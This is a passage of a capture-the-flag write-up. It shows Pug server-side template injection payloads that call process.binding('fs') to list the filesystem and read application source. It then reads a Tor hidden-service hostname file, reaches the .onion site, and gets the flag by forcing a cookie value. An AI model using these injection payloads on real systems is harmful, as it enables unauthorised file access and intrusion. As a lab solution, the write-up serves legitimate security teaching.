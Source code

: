 **Alternative File System Access:**

```pug
h4 #{process.binding("fs").readdir("/",0,0o666)}
```

checking available bindings:

```pug
h4 #{Object.keys(process.binding("fs")).filter(t=> typeof t ==="string")}
```

Or for reading files:

```pug
h4 #{process.binding("fs").readFileUtf8("/app/index.js",0,0o666)}
```

### Step 4: Discover Tor Hidden Service

Through RCE or file system access, discover the Tor configuration and hostname:

```bash
cat /var/lib/tor/hidden_service/hostname
```

**Discovered hostname:** `ghctfmdcyqtwqpvui2uq5nmbhsmxdpbsfucg523zsnula4iwszoe4rqd.onion`

### Step 5: Access the Hidden Service

Connect to the Tor hidden service using a Tor browser or proxy:

```
http://ghctfmdcyqtwqpvui2uq5nmbhsmxdpbsfucg523zsnula4iwszoe4rqd.onion/
```

### Step 6: Analyze Client-Side Code

The hidden service serves a page with `script.js` that attempts to set a cookie:

```javascript
document.cookie = "secret_agent=0; path=/; max-age=3600 HTTPOnly";
```

**Issue:** The cookie is set with `HTTPOnly` flag in JavaScript, which is invalid and causes the cookie setting to fail.

### Step 8: Extract the Flag

1. **Set the correct cookie:**

   - Manually set `secret_agent=1` using browser developer tools
   - Or intercept and modify the request

2. **Access the flag:**
   - Navigate to the root URL with the correct cookie
   - Get redirected to `/flag.html`
   - The flag is revealed in the `x-Real-Flag` header: `ghctf{TunN31_TO_darK_wEb}`

## Proof of Concept
